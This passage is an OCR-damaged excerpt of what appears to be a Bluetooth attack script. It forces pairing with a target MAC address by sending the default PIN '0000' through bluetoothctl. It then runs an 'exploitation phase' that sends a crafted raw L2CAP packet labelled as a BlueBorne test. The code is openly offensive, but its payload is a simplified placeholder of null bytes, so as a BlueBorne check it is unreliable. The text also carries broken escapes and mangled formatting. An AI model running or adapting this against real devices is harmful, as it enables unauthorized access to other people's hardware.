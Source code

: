     \# Use bluetoothctl for interactive pairing  
    expect \-c "  
    spawn bluetoothctl  
    expect "\#"  
    send "agent on\\r"  
    expect "\#"  
    send "pair $TARGET\_MAC\\r"  
    expect {  
        "PIN" {  
            send "0000\\r"  
            exp\_continue  
        }  
        "Pairing successful" {  
            send "connect $TARGET\_MAC\\r"  
            expect "\#"  
            send "quit\\r"  
        }  
        timeout { exit 1 }  
    }  
    "  

fi

#### **Phase 4: Exploitation Attempts**

\# Step 7: Attempting exploitation\
echo "Step 7: Exploitation phase..."

\# Test for BlueBorne vulnerability\
echo "Testing for BlueBorne vulnerability..."\
python3 -c "\
import socket\
import struct

def test_blueborne(target_mac):\
try:\
\# Create L2CAP socket\
sock = socket.socket(socket.AF_BLUETOOTH, socket.SOCK_RAW,
socket.BTPROTO_L2CAP)\
sock.settimeout(10)

        \# Craft malicious packet  
        payload \= b'\\x00' \* 100  \# Simplified payload  
        sock.sendto(payload, (target\_mac, 0))  
            
        print('BlueBorne test packet sent')  
        sock.close()  
        return True  
    except Exception as e:  
        print(f'BlueBorne test failed: {e}')  
        return False

test_blueborne('\$TARGET_MAC')\
"
